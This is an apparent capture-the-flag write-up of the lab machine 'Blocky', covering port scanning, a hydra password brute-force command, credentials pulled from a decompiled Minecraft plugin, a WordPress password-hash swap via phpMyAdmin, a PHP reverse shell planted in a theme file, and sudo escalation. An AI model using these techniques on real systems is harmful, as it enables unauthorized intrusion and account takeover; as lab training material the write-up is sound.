









# Blocky (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.53 -- -sC -sV -o port_scan

PORT      STATE SERVICE   REASON  VERSION
21/tcp    open  ftp?      syn-ack
22/tcp    open  ssh       syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open  http      syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
25565/tcp open  minecraft syn-ack Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Examine Port 21 - FTP (???)

On Port 21 we have a service running which seems to be FTP. However, nmap already marks it as "?", as it apparently is not FTP. To make sure, we use the ftp client and connect to the port:

```
└──╼ $ ftp 10.129.1.53
Connected to 10.129.1.53.
```

After like 20 seconds without receiving any output, it shows us following:

```
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.129.1.53]
Name (10.129.1.53:ctf):
```

This is already quite strange. But at this point I simply assumed it's some network issues. So I tried logging in as `Anonymous`, as this usually works on the most vulnerable systems, but it does not work here. As we do not have any further credentials that we could try, we have to skip FTP for now and proceed with the Apache Server.

## Examine Port 80 - Apache Server


On Port 80, we see some minecraft themed web application that was apparently developed with Wordpress (visible at the bottom of the website).

By running gobuster, we can confirm, that this is indeed a Wordpress application, as it contains all common directories, such as wp-admin:

```
└──╼ $ gobuster dir -u "10.129.1.53" -w /usr/share/wordlists/dirb/big.txt                                                                                                                 
===============================================================                                                                                                                           
Gobuster v3.0.1                                                                                                                                                                           
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                                                                           
===============================================================                                                                                                                           
[+] Url:            http://10.129.1.53                                                                                                                                                    
[+] Threads:        10                                                                                                                                                                    
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt                                                                                                                                     
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                           
[+] User Agent:     gobuster/3.0.1                                                                                                                                                        
[+] Timeout:        10s                                                                                                                                                                   
===============================================================                                                                                                                           
2021/01/18 18:17:57 Starting gobuster                                                                                                                                                     
===============================================================                                                                                                                           
/.htaccess (Status: 403)                                                                                                                                                                  
/.htpasswd (Status: 403)                                                                                                                                                                  
/javascript (Status: 301)                                                                                                                                                                 
/phpmyadmin (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/wiki (Status: 301)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-includes (Status: 301)
```

But it also contains some other directories such as `/wiki` and `/plugins`. We will check them out later. For now we just click through the pages and search for useful information. One of the recent posts contains was posted by `Notch`. Maybe this is a valid username for the wp-admin login. Let's try it.



And indeed! It exists. Let's see if Notch has a weak password. 

For that, we first have to intercept the login POST request with Burpsuite, to see the required parameters:

```
log=notch&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.129.1.53%2Fwp-admin%2F&testcookie=1
```

Now we can use a tool like hydra to bruteforce the password of Notch:

```
hydra -l notch -P /usr/share/wordlists/rockyou.txt 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.129.1.53%2Fwp-admin%2F&testcookie=1:F=incorrect" -vvv -f
```

However, this led to nothing. Apparently, the password of notch is quite strong and probably not the intended way how to pwn the machine.

Let's see what's in the other directories.

In wiki we only see a "Under construction message":

```
Under Construction

Please check back later! We will start publishing wiki articles after we have finished the main server plugin!

The new core plugin will store your playtime and other information in our database, so you can see your own stats!
```

But we should probably check out the plugins, as the wiki is hinting towards it. 



Here we can see 2 jar files `BlockCore.jar` and `griefprevention...jar`. Let's download them to our local machine and inspect them.

Jar files can be "unpacked" by running following command
```
jar -xf BlockyCore.jar
```
we receive the content of it, namely the directory `com`. Inside the directory, we find a class file `BlockyCore.class`. To inspect the java bytecode of it, we can run:

```
javap -c BlockyCore

Warning: File ./BlockyCore.class does not contain class BlockyCore
Compiled from "BlockyCore.java"
public class com.myfirstplugin.BlockyCore {
  public java.lang.String sqlHost;

  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return

  public void onServerStart();
    Code:
       0: return

  public void onServerStop();
    Code:
       0: return

  public void onPlayerJoin();
    Code:
       0: aload_0
       1: ldc           #33                 // String TODO get username
       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
       8: return

  public void sendMessage(java.lang.String, java.lang.String);
    Code:
       0: return
}
```

It contains some quite interesting comments! 

```
// String root
// Field sqlUser

// String 8YsqfCTnvxAUeduzjNSXe22
// Field sqlPass
```

So apparently `root:8YsqfCTnvxAUeduzjNSXe22` are the credentials for the root SQL user. So how can we use it? During our enumeration, we found a `phpmyadmin` directory, in which we can probably use the credentials to access the databases!



And it works! We now have access to the databases.



Inspecting the database `wordpress` we see a table called `wp_users`. 



It contains the password hash of the user notch: `$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`

Some research reveals that CMS like WordPress or Drupal use the portable PHP password hashing framework `phpass` (https://www.openwall.com/phpass/). We could try to bruteforce it, but as we are root, we can simply create our own hash of a known password and insert it into the database. For this, I used following website:
http://scriptserver.mainframe8.com/wordpress_password_hasher.php

Now we can login as Notch!



## Gaining an Initial Foothold

For obtaining a reverse shell we have several options. I've decided to inject a PHP reverse shell into the themes as following:



Now when loading this file by accessing it via the browser:

```
http://10.129.1.53/wp-content/themes/twentyseventeen/404.php
```

we receive a reverse shell!



## Privilege Escalation

We know that user `notch` exists. Let's examine his home directory.

```
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft
-r-------- 1 notch notch   32 Jul  2  2017 user.txt
```

Unforunately, we do not have enough permissions to read the user.txt. Also the investigation of the minecraft directory in the home directory led to nothing. After another hour of trying some stuff and being frustrated, I decided to try the SQL Root password as the password for notch, as he seems to be the only user on the system. Maybe he has used the same password for multiple services. And indeed. Huge facepalm at this moment.

From here it's rather easy, as notch is on the sudoers list:

```
notch@Blocky:/var/www$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

So we simply run `sudo /bin/sh` or `su -` and we obtain the root shell!

```
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```